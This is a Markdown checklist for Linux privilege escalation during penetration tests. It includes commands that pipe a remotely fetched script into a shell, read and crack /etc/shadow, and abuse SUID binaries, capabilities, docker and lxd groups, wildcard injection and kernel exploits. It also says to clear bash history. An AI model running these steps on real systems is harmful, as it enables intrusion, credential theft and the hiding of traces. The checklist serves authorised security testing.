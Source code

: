 ## Linux Priv-Esc Checklist
### 0 Preparation

- [ ] `whoami && id && hostname`    
- [ ] `uname -a && cat /etc/*-release`
- [ ] `script -q /tmp/loot.log -c bash` (start logging)
- [ ] Drop enumeration helpers (e.g. linPEAS) if permitted `curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh` ([youtube.com](https://www.youtube.com/watch?v=GY7dtgDgDKg&utm_source=chatgpt.com "Linpeas For Linux Security - [ ]Lesson and Lab - [ ]YouTube"))
### 1 Baseline Enumeration

- [ ] `sudo -l` (check NOPASSWD or limited commands)    
- [ ] `ps auxf`, `ss -tulpn` (processes / listeners)
- [ ] `df -h && mount`, `fstab`, `lsblk` (file-systems)
- [ ] `crontab -l && ls -la /etc/cron.* /etc/at.*`
- [ ] `getcap -r / 2>/dev/null` (file capabilities)
- [ ] `find / -perm -4000 -type f -xdev 2>/dev/null` (SUID)
- [ ] `find / -writable -type d -xdev 2>/dev/null` (writable dirs)
### 2 Quick Wins via `sudo`

- [ ] If `NOPASSWD`: run command directly as root    
- [ ] If limited binary allowed, search on GTFOBins for privesc vector ([gtfobins.github.io](https://gtfobins.github.io/?utm_source=chatgpt.com "GTFOBins"))   e.g. `sudo <binary>` → shell escape
### 3 Credential & File Looting

- [ ] `grep -i -R "PASS\|PWD" /etc /var /home 2>/dev/null`    
- [ ] Inspect `/home/*/.ssh`, `.bash_history`, `.git-credentials`
- [ ] Check backups: `ls -la /var/backups/`, `*.bak`, `*.old`
- [ ] `cat /etc/shadow` (if readable) → crack offline
### 4 SUID / SGID Abuse

- [ ] Review each SUID/SGID binary on GTFOBins ([github.com](https://github.com/GTFOBins/GTFOBins.github.io?utm_source=chatgpt.com "GTFOBins is a curated list of Unix binaries that can be used ... - [ ]GitHub"))    
- [ ] Custom binaries → `strings`, `ltrace`, `gdb` to spot `system()`
- [ ] Copy binary to lab, test for argv/env escapes
### 5 File Capabilities

- [ ] Exploit `cap_setuid+ep`: `./binary` drops root shell    
- [ ] Abuse `cap_dac_read_search` to read `/etc/shadow`
- [ ] `cap_sys_module` → load unsigned kernel module
### 6 Cron / Timer Misconfig

- [ ] Writable script path or log→overwrite with payload    
- [ ] Wildcard injection: craft `--checkpoint` payload for `tar`, or `--exec` for `rsync`
### 7 PATH & Environment Hijacks

- [ ] Detect root-run scripts using relative paths    
- [ ] Place malicious binary in earlier-searched writable dir
- [ ] Leverage `LD_PRELOAD`, `LD_LIBRARY_PATH` when env not sanitized
### 8 Container & Service Abuse

- [ ] User in `docker` group → `docker run -v /:/mnt alpine chroot /mnt sh`    
- [ ] User in `lxd` group → `lxc init && lxc config device add` mount root
- [ ] Weak NFS exports (`no_root_squash`) → write to root FS
- [ ] Misconfigured Consul / Redis / PostgreSQL local sockets
### 9 Kernel & Local Exploits

- [ ] `uname -r` → map to CVEs (Dirty Pipe, Dirty COW, PwnKit)    
- [ ] Compile exploit locally (`gcc exploit.c -o sploit`)
- [ ] Run, then verify `id` shows `uid=0(root)`
### 10 Post-Escalation Actions

- [ ] Confirm root shell: `id`    
- [ ] `cp /etc/shadow /tmp && unshadow > /tmp/creds.txt`
- [ ] Add persistence only if assessment scope allows
- [ ] Clear bash history, revoke incriminating files
- [ ] Exit and archive `/tmp/loot.log` for reporting
